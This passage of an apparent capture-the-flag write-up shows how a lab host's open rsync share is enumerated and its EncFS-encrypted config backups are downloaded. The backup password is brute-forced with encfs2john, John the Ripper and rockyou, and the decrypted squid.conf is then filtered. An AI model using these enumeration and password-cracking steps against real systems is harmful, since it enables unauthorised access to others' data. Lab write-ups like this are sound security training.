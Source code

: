 Now we get a different error message, saying access denied. So there must be some access control mechanisms to allow specific websites.

Since rsync port is also open, let’s enumerate that port as well.

I didn’t know anything about rsync so I researched a bit on it and found this [article](https://www.digitalocean.com/community/tutorials/how-to-use-rsync-to-sync-local-and-remote-directories-on-a-vps) on digital ocean which explains what rsync is and what it does.

Folders on rsync

    $ rsync 10.10.10.200::
    conf_backups    EncFS-encrypted configuration backups

So we have conf_backups folder, let's sync it using rsync

    $ rsync -r 10.10.10.200::conf_backups .

![](https://cdn-images-1.medium.com/max/2000/1*ZSc3mhCeIsBY3Ihv62Wv5A.png)

So we can find that this is encfs encrypted data and we need a password to decode the data since we have .encfs6.xml file. Since we don't have password so let’s brute force the password.

## John to brute force the password

    $ /usr/share/john/encfs2john.py rsync/ > ro.john
    $ john --wordlist=/usr/share/wordlists/rockyou.txt ro.john

    We get : bubblegum

Let's decrypt the files using the password

    $ encfsctl export rsync/ ro/
    EncFS Password:

We get decrypted file in the ro/ directory.

![](https://cdn-images-1.medium.com/max/2000/1*_6YfdbiUF-cCo_UUXsvfJA.png)

We have squid.conf. Now, we have squid.conf file which has the configuration. Most of the line is commented.

    $ grep -v "^#" squid.conf | awk NF

    -v :invert the selection
    ^# :anything that starts with #
    awk NF :remove blank lines

    It removes all the commented and blank lines

Result:

    acl localnet src 0.0.0.1-0.255.255.255 # RFC 1122 "this" network (LAN)
    acl localnet src 10.0.0.0/8  # RFC 1918 local private network (LAN)
    acl localnet src 100.64.0.0/10  # RFC 6598 shared address space (CGN)
    acl localnet src 169.254.0.0/16  # RFC 3927 link-local (directly plugged) machines
    acl localnet src 172.16.0.0/12  # RFC 1918 local private network (LAN)
    acl localnet src 192.168.0.0/16  # RFC 1918 local private network (LAN)
    acl localnet src fc00::/7        # RFC 4193 local private network range
    acl localnet src fe80::/10       # RFC 4291 link-local (directly plugged) machines
    acl SSL_ports port 443
    acl Safe_ports port 80  # http
    acl Safe_ports port 21  # ftp
    acl Safe_ports port 443  # https
    acl Safe_ports port 70  # gopher
    acl Safe_ports port 210  # wais
    acl Safe_ports port 1025-65535 # unregistered ports
    acl Safe_ports port 280  # http-mgmt
    acl Safe_ports port 488  # gss-http
    acl Safe_ports port 591  # filemaker
    acl Safe_ports port 777  # multiling http